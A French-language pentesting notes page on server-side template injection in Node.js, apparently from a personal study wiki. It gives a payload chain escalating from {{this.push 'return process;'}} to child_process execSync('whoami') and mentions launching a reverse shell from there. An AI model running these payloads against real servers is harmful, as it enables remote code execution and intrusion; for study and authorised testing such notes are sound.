 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](ssti.md)</sub>
#Node.js

**Utilisation :** server side template

**Help :**
- Node.js fonctionne avec des global Objects

**Principaux global objects :**
- __dirname
- __filename
- exports
- module
- require()

**Procédure SSTI :**
- on test le script correspondant sur le site [hacktrick](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#identify)
  - si *ReferenceError: require is not defined* :
      >Template Engines are often Sandboxed, meaning their code runs in a restricted code space so that in the event of malicious code being run, it will be very hard to load modules that can run system commands. If we cannot directly use require to load such modules, we will have to find a different way.

- si on modifie script encodé pour la ligne principale avec *{{this.push "return process;"}}* => on voit apparaître le template avec les objects dans le code html.
- on tente le *{{this.push "return process.mainModule;"}}*
- si on voit un autre object, on on tente de trouver le child => *{{this.push "return process.mainModule.require('child_process');"}}*
- si on a bien un objet on tente le => *{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}*
  - si ça passe alors dans le execSync on peut lancer un [reverse shell](reverse_shell.md)